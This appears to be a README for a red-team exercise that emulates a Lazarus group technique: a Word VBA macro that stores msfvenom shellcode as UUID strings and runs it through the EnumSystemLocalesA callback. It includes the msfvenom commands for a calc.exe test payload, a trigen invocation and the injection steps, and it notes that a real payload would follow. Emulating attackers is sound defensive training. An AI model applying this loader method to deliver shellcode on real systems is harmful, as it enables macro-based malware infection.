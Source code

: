 ## Disclaimer
Content is for educational purposes only. Do not investigate individuals, websites, server, or a network, or conduct any illegal activities on any system you do not have permission to analyze. !

**Task: Modify the previous macro to emulate the Lazarus group. Use the Windows API to store shellcode as UUIDs (UuidFromStringA) and then run that shellcode (EnumSystemLocalesA). Again, this can be a simple test with calc or notepad. Upon success, a real payload will be provided. PtrSafe and LongPtr are key to getting this to work.**


**What you will need:**
1. Metasploit
2. Windows API understanding
3. Converter python script (or any language you wish)

**Generally, shellcode injection and execution follow these steps:**
1. Obtain a handle to a process (local or remote)
2. Allocate new region of memory to the process
3. Write/Move/Map shellcode to the newly allocated memory region
4. Execute the shellcode from the memory region using various methods

//

11. Create a heap object inside the local process
22. Allocate some blocks of memory on the heap
33. Using UuidFromStringA, convert an array of UUID strings into its binary representation.
44. Using EnumSystemLocalesA, specify the pointer to the heap as a callback function, so it gets executed while EnumSystemLocalesA is running.


# Instructions:

Step 1: Generate payload using msfconsole for calc.exe (64bit)

>>> msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe x64/alpha_mixed -f py

>>> uuid.txt

Step 2: Create python script (converter.py) to convert shellcode bytes into UUID strings

Step 3: Create VBA to load UUIDs into memory

>>> calc-popup.vba

# allocate mem, copy shellcode into mem, transfer execution to shellcode via abused function call

>>> python trigen.py "$(msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe x64/alpha_mixed -f py)"

Step4: Load VBA into Word.docm with macros enabled

>>> Save and run the macro

>>> calc.exe will pop up




# Resources:


https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/

http://ropgadget.com/posts/abusing_win_functions.html

https://github.com/karttoon/trigen

https://docs.microsoft.com/en-us/windows/win32/api/winnls/nf-winnls-enumsystemlocalesa

https://docs.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa
